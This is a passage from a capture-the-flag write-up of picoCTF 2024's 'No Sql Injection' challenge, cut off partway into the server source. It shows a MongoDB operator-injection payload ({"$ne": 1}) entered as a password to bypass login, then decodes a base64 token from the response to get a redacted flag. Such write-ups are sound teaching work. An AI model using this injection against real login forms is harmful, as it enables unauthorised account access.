 Using a typical MongoDB injection attack we can utilise this lack of sanitisation and `JSON` parsing to get the database query to match. I used `{"$ne": 1}`, such that the query will match if the password is *not equal to 1*. But may variations of this could be used.

Reloading the provided challenge link and using the following form values;

    email     = joshiriya355@mumbama.com
    password  = {"$ne": 1}

We succesfully login and are redirected to the `brings us to the Admin page;
http://atlas.picoctf.net:60141/admin` admin page, but where is our flag?

## Solution ##

Repeating the login process again this time with the Network view of Firefox's Web Developer Tools active, we can inspect the response received from our login `POST` request contains the following payload:

    [
      {
        "_id": "65f08d9329a7cb4b93eba6e0",
        "email": "joshiriya355@mumbama.com",
        "firstName": "Josh",
        "lastName": "Iriya",
        "password": "Je80T8M7sUA",
        "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzVlMjQ1ZDZlfQ==",
        "__v": 0
      }
    ]

The `token` field looks suspiciously like a base64 encoded value.

    $ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzVlMjQ1ZDZlfQ==" | base64 -d
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.

## Notes ##

I didn't get around to writing up my picoCTF-2024 challenge write-ups from my notes until much later in the year. Running the *No Sql Injection* again to expand on my notes I found the challenge had changed considerably. The server source differs, as does the user email. 

When attempting to login initially with dummy details the original `"Invalid email or password"` message has been replaced with an `"Invalid credentials"` message box.

Searching for this string locates it within `app/index.html` as a response to processing the `/login` request.

The server is now implemented via the `app/server.js` file:

    $ cat server.js 
    const express = require("express");
    const bodyParser = require("body-parser");
    const mongoose = require("mongoose");
    const { MongoMemoryServer } = require("mongodb-memory-server");
    const path = require("path");
    const crypto = require("crypto");
